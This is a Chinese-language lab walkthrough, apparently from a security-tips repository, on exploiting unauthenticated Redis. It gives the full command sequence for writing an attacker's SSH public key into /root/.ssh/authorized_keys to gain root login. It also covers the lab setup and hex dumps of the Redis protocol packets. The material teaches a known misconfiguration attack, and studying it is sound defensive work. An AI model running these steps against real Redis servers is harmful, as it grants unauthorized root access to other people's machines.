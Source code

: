 
**类似漏洞挖掘Tips：未授权服务在公网开放**

# Redis未授权访问写入ssh公钥获取服务器访问权限

Refer：http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/

## step 1. 准备实验环境

|角色|操作系统|IP地址|
|----|--------|------|
|被攻击方|CentOS 6.5|192.168.188.132|
|攻击方|Kali 2.0|192.168.188.131|

操作：

1. 攻击方与被攻击方都是root用户。
2. 确保攻击方与被攻击方网络连通（ping）及清除iptables防火墙规则（iptables -F）。
3. 在CentOS中安装Redis 3.0.5，并运行。（终端下输入以下命令）： 

下载，解压，编译:
```
$ wget http://download.redis.io/releases/redis-3.0.5.tar.gz
$ tar xzf redis-3.0.5.tar.gz
$ cd redis-3.0.5
$ make
```

二进制文件是编译完成后在src目录下. 运行如下:
```
$ src/redis-server
```

## step 2. 实施攻击前准备

1. 攻击方用ssh连接被攻击方，发现是需要密码登录。
    ```
    ssh 192.168.188.132
    ```
    ![](ssh_fail.png)

2. 攻击方生成一对ssh公私钥。
    ```
    ssh-keygen –t rsa
    ```
    ![](create_ssh_key.png)

## step 3. 攻击

**攻击者将生成公钥保存到被攻击方的/root/.ssh/authorized_keys**

1. 攻击方访问被攻击方的Redis服务（若不指定端口，连接默认端口6379）。
 ```
 redis-cli –h 192.168.188.132
 ```

2. 攻击者设置被攻击方Redis的默认路径及数据库缓存文件。
 ```
 config set dir /root/.ssh
 config set dbfilename authorized_keys
 ```

3. 攻击者设置在被攻击方Redis设置一个字符串，用来保存公钥。
 ```
 set CrackR  “\n\n\n+生成的公钥+\n\n\n”
 ```

4. 攻击者保存数据快照到硬盘，即上一步的字符串CrackR保存到/
root/.ssh/ authorized_keys.
 ```
  save
 ```

5. 退出。
 ```
 exit
 ```

![](attack_cmd.png)


## step 4. 验证攻击

1. 攻击方用ssh连接被攻击方，成功登录。
```
ssh 192.168.188.132
```
![](ssh_success.png)

---

## 攻击流程图

![](attack_flow.png)

---

## Redis 通信报文分析

Redis使用TCP协议进行传输，默认开放端口6379，且默认无需授权便可登录。

1. Redis数据在TCP包数据部分，以*开头，后面跟着的数字代表Redis整个命令的字符串个数。

2. 以0x0d，0x0a作为分隔符

3. 将命令中的字符串分开，以单个字符串作为处理单元，转变为 $+数字（字符串长度）+分隔符+字符串+分隔符。


### config set dir /root/.ssh 设置Redis的默认路径

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 33 0d 0a 64 69 72  $3..set..$3..dir
0020   0d 0a 24 31 30 0d 0a 2f 72 6f 6f 74 2f 2e 73 73  ..$10../root/.ss
0030   68 0d 0a                                         h..
```

### config set dbfilename authorized_keys 设置数据库缓存文件

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 31 30 0d 0a 64 62  $3..set..$10..db
0020   66 69 6c 65 6e 61 6d 65 0d 0a 24 31 35 0d 0a 61  filename..$15..a
0030   75 74 68 6f 72 69 7a 65 64 5f 6b 65 79 73 0d 0a   uthorized_keys..
```

### set xxxx "\n\n\nssh-rsa key_pub\n\n\n"  设置一个字符串

```
0000   2a 33 0d 0a 24 33 0d 0a 73 65 74 0d 0a 24 36 0d  *3..$3..set..$6.
0010   0a 43 72 61 63 6b 52 0d 0a 24 34 30 31 0d 0a 0a  .CrackR..$401...
0020   0a 0a 73 73 68 2d 72 73 61 20 41 41 41 41 42 33  ..ssh-rsa AAAAB3
0030   4e 7a 61 43 31 79 63 32 45 41 41 41 41 44 41 51  NzaC1yc2EAAAADAQ
```


